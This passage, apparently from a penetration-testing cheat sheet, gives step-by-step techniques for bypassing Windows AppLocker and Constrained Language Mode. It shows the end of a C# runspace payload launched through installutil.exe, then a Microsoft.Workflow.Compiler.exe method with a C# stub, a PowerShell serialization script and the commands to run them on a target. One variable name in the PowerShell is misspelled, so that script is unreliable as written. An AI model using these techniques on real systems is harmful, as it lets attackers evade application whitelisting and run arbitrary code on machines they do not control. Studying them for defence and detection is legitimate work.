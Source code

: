                 ps.Runspace = rs;
                ps.AddScript(cmd);
                ps.Invoke();
                rs.Close();
            }
        }
    }
    ```
- 2\. Add the following 2 assembly references: 
	- References > Add Reference > Browse > "C:\\Windows\\assembly\\GAC\_MSIL\\System\.Management\.Automation\\1\.0\.0\.0\_\_31bf3856ad364e35\\System\.Management\.Automation\.dll\."\)
	- References > Add Reference > Assemblies > "System\.Configuration\.Install"
- 3\. The payload can be executed as follows to bypass AppLocker/CLM: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile=/LogToConsole=false /U C:\Users\Public\Documents\Bypass.exe`

##### _Bypass Applocker via Microsoft\.Workflow\.Compiler\.exe – bypass AppLocker/CLM:_
- 1\. On own system create test\.txt that contains the following C\# code: 
    ```Csharp
    using System;
    using System.Workflow.ComponentModel;
    
    public class Run : Activity {
    	public Run() {
    	    <C# CODE TO EXECUTE>;
    	}
    }
    ```
- 2\. On own system create run\.xml file that contains serialized XML code using the following PowerShell code: 
    ```Powershell
    $workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
    $workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
    $SerializeuInputToWrapper =
    [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper',
    [Reflection.BindingFlags] 'NonPublic, static')
    Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
    $compilerparam = New-Object -Typename Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
    $pathvar = "test.txt"
    $compilerparam.GenerateInMemory = $True
    $output = "C:\users\public\documents\run.xml"
    $tmp = $SerializeuInputToWrapper.Invoke($null,
    @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerpararm, [string[]] @(,$pathvar)))
    Move-Item $tmp $output
    ```
- 3\. Upload both the run\.xml and test\.txt files to the target system and place them in the same folder
- 4\. Bypass applocker and execute the C\# code in the test\.txt file \(the results\.xml argument is just a mandatory parameter to make it work\): `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml
results.xml`
